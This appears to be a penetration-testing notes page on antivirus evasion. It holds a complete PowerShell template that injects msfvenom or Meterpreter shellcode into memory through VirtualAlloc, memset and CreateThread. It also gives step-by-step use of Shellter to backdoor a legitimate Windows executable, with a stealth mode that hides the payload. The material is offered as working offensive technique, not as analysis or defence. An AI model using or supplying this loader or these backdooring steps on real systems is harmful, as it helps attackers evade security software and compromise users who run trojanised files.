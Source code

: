 ## Antivirus Evasion

### Scanning Files

www.virustotal.com lets you upload a file and scan through multiple AV definitions.  Only use if you are ready to use the file, because it will add that file's signature to the definitions eventually.

### Memory Evasion

Can leverage Powershell Scripts due to the fact that it's difficult for AV to figure out if a PS Script is malicious or not because it's run inside an interpreter and the script isn't executable.

Below is a basic script template for in-memory injection.

```powershell
# Import functions needed for exploit from DLL's
$code = '
# This function allows you to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
# This function allows you to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
# This function allows you to write arbitrary data to memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

# 
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

# Insert shellcode here, use msfvenom format 'powershell'
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

# Allocate memory block
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

# Write shellcode to allocated memory block
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

# Execute in-memory payload in separate thread
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

If you run into issues with the Execution Policy, check the Execution Policy section of the Scripts\Powershell\Powershell.md document.

This is a great script to use a Meterpreter Payload with 💪🏼

### Shellter

This tool installs a backdoor in a legitimate file.  It analyzes a target PE and execution paths to determine where shellcode can be injected, using advanced methods not easily caught by AV.  It also uses existing PE Import Address Table (IAT) entries to find functions that can be used for memory allocation, transfer, and execution of the payload.

NOTE:  Shellter is a Windows tool and requires wine to be installed

#### Install:

```bash
sudo apt install shellter
```

#### To run:

You can technically run shellter with just `shellter` but it will throw permission errors unless you are running it as root as it will try to write to the user directory instead of it's own.  Use this command instead:

```bash
wine wineconsole /usr/share/windows-resources/shellter/shellter.exe
```

#### Creating a Payload

After shellter runs, it presents some choices:

- Operation Mode
  - Manual Mode provides the most customization options
  - Auto mode walks you through the process but may cause issues
- Stealth Mode
  - This will attempt to resume execution after the payload is finished, thereby hiding the payloads existence and reducing suspicion.
- Use a listed payload or custom
  - Choose one of the popular ones or provide your own.
  - To use stealth mode with custom payloads, be sure to use the `EXITFUNC=thread ` option when making the payload in MSFVenom.

